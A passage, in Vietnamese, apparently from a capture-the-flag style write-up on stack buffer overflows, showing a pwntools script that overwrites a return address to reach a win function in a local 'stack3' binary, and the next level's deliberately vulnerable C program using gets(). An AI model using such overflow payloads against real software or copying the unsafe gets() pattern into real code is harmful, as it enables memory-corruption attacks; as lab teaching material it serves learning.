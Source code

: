 Tương tự như câu trên chúng ta sẽ dùng p64() để chuyển địa chỉ về little edian rồi đưa vào payload.
```
from pwn import *

BIN = "./stack3"
DEBUG = 1

win = 0x4005b6

def exploit():

  payload = b"A"*0x48 + p64(win)  
  _breakpoint = """
      b *0x00000000004005ea
  """
  gdb.attach(io, _breakpoint)
  io.sendline(payload)
  io.recv()
  io.interactive()


io = process(BIN)
context.log_level='debug'
exploit()
```

```
code flow successfully changed
```

## Stack 4
LevelUp++!  

Level này mà chúng ta có kiến thức về stack khá ổn thì nó cũng sẽ ezzz thôi! Vẫn là thay đổi flow của chương trình nhưng mà theo 1 cách khác !


```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win() #
{
  printf("flag{u hereeee why u have to find ???}\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
